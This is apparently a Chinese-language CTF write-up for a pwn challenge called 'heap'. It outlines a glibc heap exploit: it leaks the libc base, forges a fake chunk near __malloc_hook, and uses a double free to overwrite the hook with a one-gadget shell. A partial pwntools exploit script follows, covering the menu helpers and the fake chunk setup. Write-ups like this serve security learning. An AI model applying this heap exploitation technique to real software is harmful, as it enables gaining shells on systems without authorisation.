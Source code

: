 # Heap

已经通过 fastbins 和 unsorted bins 获取了 libc 基址，只需要再劫持`__malloc_hook`为 ogg 就能 get shell，可以找到在`__malloc_hook - 0x23`的位置可以构造一个`fake chunk`，大小为 0x70 左右，那么我们申请的大小就需要小于 0x70 ，比赛时一直没注意到这点导致一直 malloc 失败，修改之后就可以用 double free 来修改`__malloc_hook`来 get shell

__malloc_hook [Heap](https://hnusec-team.feishu.cn/wiki/XrWxwFQJ4in8RbkE37Bcid4Snkc?larkTabName=space#share-BP3zdCZNqosPIAxTesPc8QYwnoe)

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
local = True
debug_mode = True
elf_path = "./heap"
libc_path = "./libc.so.6"
if local:
    p = process(elf_path)
else:
    ip, port = ":".split(":")
    p = remote(ip, int(port))

def debug():
    if local and debug_mode:
        gdb.attach(p, '''
            b main
            b *0x40089e
            b *0x400a81
            b *0x4009cd
        ''')

def choose(idx):
    p.recvuntil("> ")
    p.sendline(str(idx))

def add(size, content):
    choose(1)
    p.recvuntil("> ")
    p.sendline(str(size))
    p.recvuntil("> ")
    p.send(content)

def free(idx):
    choose(2)
    p.recvuntil("> ")
    p.sendline(str(idx))

def change(name):
    choose(3)
    p.recvuntil("> ")
    p.send(name)

libc = ELF(libc_path)
bss_name = 0x6020c0
chunk_list = 0x6021a0

name = flat([
    0, 0x91
]).ljust(0x90, b"\x00")
name += flat([
    0, 0x31
]).ljust(0x30, b"\x00")
```